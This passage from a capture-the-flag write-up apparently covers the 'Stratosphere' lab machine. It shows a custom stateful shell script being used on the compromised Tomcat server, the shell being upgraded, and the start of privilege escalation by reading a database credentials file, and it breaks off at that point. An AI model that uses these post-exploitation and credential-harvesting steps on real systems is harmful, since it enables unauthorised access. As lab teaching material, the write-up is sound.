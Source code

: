     

### Successful Shell

That gives a nice stateful shell:

    
    
    root@kali# python3 ./stratosphere_shell.py
    [*] Session ID: 17370
    [*] Setting up fifo shell on target
    [*] Setting up read thread
    stratosphere> pwd
    /var/lib/tomcat8
    
    stratosphere>
    
    ls
    conf
    db_connect
    lib
    logs
    policy
    webapps
    work
    
    stratosphere> cd ..
    stratosphere> pwd
    /var/lib
    
    stratosphere> upgrade
    tomcat8@stratosphere:/var/lib$
    /var/lib
    tomcat8@stratosphere:/var/lib$
    

## Privesc: tomcat8 –> richard

### MiriaDB Database

We could have done this without the shell, but it was fun to build, and made
enumeration much easier.

Using new shell, connect to the database observed on 3306 with creds we found
in the file above:

    
    
    root@kali# python3 ./stratosphere_shell.py
    Session: 36734
    [*] Setting up fifo shell on target
    [*] Setting up read thread
    stratosphere> upgrade
    tomcat8@stratosphere:~$
    pwd
    /var/lib/tomcat8
    tomcat8@stratosphere:~$
    ls -l
    total 16
    lrwxrwxrwx 1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
    -rw-r--r-- 1 root    root      68 Oct  2  2017 db_connect
    drwxr-xr-x 2 tomcat8 tomcat8 4096 Sep  3  2017 lib
    lrwxrwxrwx 1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
    drwxr-xr-x 2 root    root    4096 May  2 11:58 policy
    drwxrwxr-x 4 tomcat8 tomcat8 4096 Feb 10 21:12 webapps
    lrwxrwxrwx 1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8
    tomcat8@stratosphere:~$
    cat db_connect
    [ssn]